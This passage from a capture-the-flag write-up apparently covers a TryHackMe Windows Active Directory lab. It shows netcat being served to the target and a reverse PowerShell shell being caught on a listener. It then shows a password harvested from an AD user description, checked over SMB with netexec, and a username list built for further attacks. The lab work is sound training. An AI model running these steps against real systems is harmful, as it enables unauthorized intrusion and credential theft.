 ```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.39.152 - - [19/Dec/2024 10:50:25] "GET /nc64.exe HTTP/1.1" 200 -
```

We also get a shell as the `scrawler` user on our listener and can read the second flag at `C:\Users\scrawler\Desktop\user.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.39.152] 65000
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
socmas\scrawler
PS C:\Windows\system32> type C:\Users\scrawler\Desktop\user.txt
THM{kr[REDACTED]0t}
```

### Access as Krampus_Debugger

Using our shell to check for users and their descriptions, we find a password in the description for the `Winterberry_Locksmit` user.

```console
PS C:\Windows\system32> Get-ADUser -Filter * -Property Description | Select-Object SamAccountName, Description

SamAccountName       Description
--------------       -----------
...
Winterberry_Locksmit PW: Ch[REDACTED]4!
...
```

Testing this password for the user using `netexec`, we see that it works.

```console
$ nxc smb fisher.socmas.corp -u 'Winterberry_Locksmit' -p 'Ch[REDACTED]4!'
SMB         10.10.39.152    445    FISHER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FISHER) (domain:socmas.corp) (signing:True) (SMBv1:False)
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\Winterberry_Locksmit:Ch[REDACTED]4!
```

Also, running the `Get-ADUser -Filter * | Select-Object SamAccountName` command to get a list of all users, we create a wordlist out of them as follows:

```console
$ cat usernames.txt
Administrator
Guest
...
Blizzard_Defender
scrawler
```
